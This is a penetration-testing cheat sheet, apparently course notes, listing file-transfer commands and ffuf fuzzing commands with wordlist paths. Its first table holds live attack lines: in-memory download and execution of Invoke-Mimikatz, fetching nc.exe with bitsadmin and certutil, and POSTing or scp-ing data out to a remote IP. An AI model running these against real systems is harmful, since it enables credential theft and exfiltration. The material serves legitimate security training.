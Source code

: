 | **Command**                                                                                                        | **Description**                             |
| ------------------------------------------------------------------------------------------------------------------ | ------------------------------------------- |
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`                                            | Download a file with PowerShell             |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`                              | Execute a file in memory using PowerShell   |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`                                            | Upload a file with PowerShell               |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`                                                   | Download a file using Bitsadmin             |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`                                                      | Download a file using Certutil              |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`                   | Download a file using Wget                  |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`                   | Download a file using cURL                  |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`          | Download a file using PHP                   |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`                                                 | Upload a file using SCP                     |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`                                                           | Download a file using SCP                   |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |

## Fuzzing with Ffuf

|**Command**|**Description**|
|---|---|
|`ffuf -h`|ffuf help|
|`ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ`|Directory Fuzzing|
|`ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/indexFUZZ`|Extension Fuzzing|
|`ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/blog/FUZZ.php`|Page Fuzzing|
|`ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v`|Recursive Fuzzing|
|`ffuf -w wordlist.txt:FUZZ -u https://FUZZ.hackthebox.eu/`|Sub-domain Fuzzing|
|`ffuf -w wordlist.txt:FUZZ -u http://academy.htb:PORT/ -H 'Host: FUZZ.academy.htb' -fs xxx`|VHost Fuzzing|
|`ffuf -w wordlist.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php?FUZZ=key -fs xxx`|Parameter Fuzzing - GET|
|`ffuf -w wordlist.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`|Parameter Fuzzing - POST|
|`ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`|Value Fuzzing|

### Wordlists

|**Command**|**Description**|
|---|---|
|`/opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt`|Directory/Page Wordlist|
|`/opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt`|Extensions Wordlist|
|`/opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt`|Domain Wordlist|
|`/opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt`|Parameters Wordlist|
